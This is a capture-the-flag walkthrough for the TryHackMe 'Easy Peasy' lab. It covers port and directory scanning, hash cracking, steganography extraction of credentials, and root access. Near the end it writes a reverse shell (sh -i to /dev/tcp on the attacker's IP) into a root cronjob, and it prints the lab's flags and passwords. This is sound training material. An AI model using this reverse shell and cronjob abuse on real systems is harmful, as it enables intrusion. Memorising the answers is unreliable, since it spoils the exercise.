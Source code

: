 ```yaml
---

title: Walkthrough - Easy Peasy
published: True
---
```


Practice using tools such as Nmap and GoBuster to locate a hidden directory to get initial access to a vulnerable machine. Then escalate your privileges through a vulnerable cronjob.

[https://tryhackme.com/room/easypeasyctf](https://tryhackme.com/room/easypeasyctf)

* * *

## Notes

- Perform an nmap scan ``sudo nmap -Pn -sS -p- -T4 10.10.140.191 -vvv`` while waiting for results check webserver and start gobuster
- ``gobuster dir -u http://10.10.140.191 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt -t 100 --no-error``

Find a hidden directory with nothing else there but we can further enumerate and gobust that one.

```shell
PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.16.1
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.43 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- gobuster found ``/hidden/whatever`` inside the source code we find base64 ``ZmxhZ3tmMXJzN19mbDRnfQ==`` and our first flag
- time to gobust the other server on port 65524

![0xskar](/assets/easy-peasy-flag03.png)

- we find robots.txt on 65524

```html
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```

- ``gobuster dir -u http://10.10.140.191:65524/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 -x txt --no-error -a a18672860d0510e5ab6699730763b250``
- Turns out the user agent is a md5 hash for our second flag

- after a few hours i guess haveto be more careful about looking through source code. Found base encoded data that i threw into cyberchef to decode. it's not your regular base32 or 64 or 58 encode. This leads us to another hidden directory.

![0xskar](/assets/easy-peasy04.png)

- lets check out ``/n0th1ng3ls3m4tt3r``
- download the jpg.
- also found ``940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81`` in the source code. save to ``nothingelsematters.hash`` and feed it to john
- ``john nothingelsematters.hash --wordlist=easypeasy.txt --format=gost`` gives us ``mypasswordforthatjob``
- ``stegseek binarycodepixabay.jpg ./easypeasy.txt`` gives us ``secrettext.txt`` with credentials and a password in binary. Wait its actually ASCII and ``iconvertedmypasswordtobinary``
- credentials ``boring:iconvertedmypasswordtobinary``

* * * 

## What is the user flag?

- affine cipher - A=1,B=13

* * * 

## What is the root flag?

- ``cat /etc/crontab`` we find ``* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh``
- ``echo "sh -i >& /dev/tcp/10.2.127.225/6670 0>&1" >> .mysecretcronjob.sh``
- on attacker machine ``nc -nvlp 6670`` then ``cat /root/.root.txt``

* * * 

